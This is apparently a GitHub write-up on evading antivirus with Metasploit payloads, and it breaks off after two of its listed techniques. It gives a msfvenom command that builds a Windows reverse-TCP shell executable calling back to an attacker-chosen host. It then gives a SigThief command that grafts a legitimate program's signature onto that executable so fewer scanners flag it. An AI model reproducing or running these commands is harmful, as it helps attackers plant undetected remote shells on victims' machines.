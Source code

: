 ### Making MSF payload almost invisible and bypassing most AVs

## Contents
- Introduction 

- Ways to obfuscate msf payloads
    - Basic msf payload
    - Using xor and shikata_ga_nai
    - Using shellcode with C shellcode loader
    - Using encryption (Alaris)
    
## Introduction 

Avs have significantly improved in recent years it still relies on age-old AV techniques that are often trivial to bypass. In this post we’ll analyse some basic pool of techniques which can be used to protect a basic msf payload to bypass most modern Avs. 

## Ways to hide msf payloads
In the following we will explore ways to encode/obfuscate msf payload and will have a goal to finally reach a point where we are satisfied with our results.

### Basic msf payload
Lets see how our basic msf payload stand againt Virustotal.

- Build command
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip here> LPORT=<port here> -f exe -o shivang_shell.ex
```

- Result

![Alt Text](https://i.ibb.co/rQrdx2j/basic-msf.png)

### Using SigThief
SigTheif is tool which takes a signature from a PE file and add that to another. Many Avs detect maalicous PE files based on signatures so this method can drop our detection rate to some extent.

- Build command
```
python sigthief.py -i git-cmd.exe -t shivang_shell.exe -o shivang_shell_2.exe
```

- Result

![Alt Text](https://i.ibb.co/BtSZkwQ/basic-msf-sig.png)

Droping only 2 detection is not at all a huge move here . Although there are many combination which can be tried from SighTheif but for now let's leave it here

```
